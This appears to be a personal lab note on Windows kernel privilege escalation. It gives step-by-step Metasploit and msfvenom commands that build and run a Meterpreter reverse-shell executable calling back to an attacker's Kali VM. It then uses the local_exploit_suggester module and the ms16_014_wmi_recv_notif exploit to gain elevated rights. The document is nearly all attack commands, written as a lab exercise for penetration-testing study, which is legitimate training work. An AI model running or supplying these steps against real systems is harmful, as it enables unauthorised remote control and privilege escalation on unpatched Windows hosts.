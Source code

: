 #Windows #PrivEsc #kernel 

## **Establish a shell**  

Kali VM

1. Open command prompt and type: `msfconsole`  
2. In Metasploit (msf > prompt) type: `use multi/handler`  
3. In Metasploit (msf > prompt) type: `set payload windows/x64/meterpreter/reverse_tcp`  
4. In Metasploit (msf > prompt) type: `set lhost [Kali VM IP Address]`  
5. In Metasploit (msf > prompt) type: `run`  
6. Open an additional command prompt and type: `msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe > shell.exe`  
7. Copy the generated file, `shell.exe`, to the Windows VM.  

Windows VM

1. Execute `shell.exe` and obtain reverse shell

## **Detection & Exploitation**  

Kali VM

1. In Metasploit (msf > prompt) type: `run` the msf module `post/multi/recon/local_exploit_suggester`
	1. Identify `exploit/windows/local/ms16_014_wmi_recv_notif` as a potential privilege escalation  
2. In Metasploit (msf > prompt) type: `use exploit/windows/local/ms16_014_wmi_recv_notif`  
3. In Metasploit (msf > prompt) type: `set SESSION [meterpreter SESSION number]`  
4. In Metasploit (msf > prompt) type: `set LHOST tun0`  
5. In Metasploit (msf > prompt) type: `set LPORT 5555`  
6. In Metasploit (msf > prompt) type: `run`

*NOTE: The shell might default to your eth0 during this attack.  If so, ensure you type `set lhost [Kali VM IP Address]` and run again.*